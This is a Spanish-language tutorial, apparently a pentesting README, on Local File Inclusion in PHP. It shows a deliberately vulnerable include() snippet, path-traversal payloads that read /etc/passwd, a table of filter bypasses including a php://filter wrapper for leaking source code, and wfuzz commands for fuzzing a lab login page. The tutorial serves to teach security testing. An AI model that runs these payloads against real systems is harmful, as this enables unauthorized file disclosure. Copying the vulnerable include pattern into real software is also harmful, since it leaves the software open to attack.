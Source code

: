 
## 📑 Índice de Contenidos

1. [🔥 Ejemplo vulnerable](#lfi)
2. [❌ ¿Qué hace mal este código?](#mal)
3. [🔍 ¿Cómo sospechamos que puede haber un LFI?](#-cómo-sospechamos-que-puede-haber-un-lfi)
4. [🔁 Bypasses comunes](#-bypasses-comunes)
5. [🤖 Automatizando con `wfuzz`](#-automatizando-con-wfuzz)
6. [🔎 Caso práctico: LFI en `login.php`](#-caso-práctico-lfi-en-loginphp)



<a name="lfi"></a>
🗂️ LFI (Local File Inclusion)
Una mala configuración en una aplicación web puede permitir al atacante incluir archivos del sistema, revelando información sensible. A continuación, un ejemplo típico en PHP:

🔥 Ejemplo vulnerable
```
<?php
// archivo: index.php

if (isset($_GET['page'])) {
    include($_GET['page']);
} else {
    include("home.php");
}
?>
```

<a name="mal"></a>
❌ ¿Qué hace mal este código?
Usa directamente $_GET['page'] sin validación.

  -Permite al atacante incluir archivos arbitrarios.

  -Por ejemplo, el siguiente payload puede mostrar el contenido de /etc/passwd en sistemas Linux:
  ```
  http://ejemplo.com/index.php?page=../../../../etc/passwd
  ```

## 🔍 ¿Cómo sospechamos que puede haber un LFI?
URLs como estas son sospechosas:
```
http://victima.com/index.php?page=home
http://victima.com/?template=about
http://victima.com/view.php?file=readme.txt
```
Prueba incluir archivos del sistema:
```
http://victima.com/index.php?page=../../../../../../../etc/passwd
```
🧪 Si es vulnerable, verás algo como:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## 🔁 Bypasses comunes

Si hay validaciones o filtros, intenta con variantes como:

| Técnica                                  | Ejemplo                                                                          |
| ---------------------------------------- | -------------------------------------------------------------------------------- |
| Null byte (en versiones antiguas de PHP) | `../../../../../etc/passwd%00`                                                   |
| Agregar signo de pregunta                | `../../../../../etc/passwd?`                                                     |
| Rutas con doble punto y slash mezclados  | `....//....//etc/passwd`                                                         |
| Wrappers de PHP                          | `php://filter/convert.base64-encode/resource=index.php` (para ver código fuente) |


## 🤖 Automatizando con wfuzz

Puedes usar wfuzz con diccionarios específicos para encontrar rutas LFI:
```bash
wfuzz -u "http://target.com/index.php?page=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulcore.txt
```
Diccionarios útiles:

  -/usr/share/seclists/Fuzzing/LFI/

  -SecLists/Fuzzing/LFI/LFI-Jhaddix.txt

## 🔎 Caso práctico: LFI en login.php

Supón que descubres esta URL:
```bash
http://172.17.0.2/login.php
```
Y sospechas que puede tener un parámetro vulnerable. Primero intentamos descubrir el nombre del parámetro:
```bash
wfuzz -c --hc=404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
👀 Observas que la mayoría de las respuestas tienen 1036 caracteres. Puedes filtrarlas con --hh:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
✅ Esto revela que el parámetro vulnerable es file. Ahora prueba un payload con un diccionario de LFI:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
"http://172.17.0.2/login.php?file=FUZZ"
```
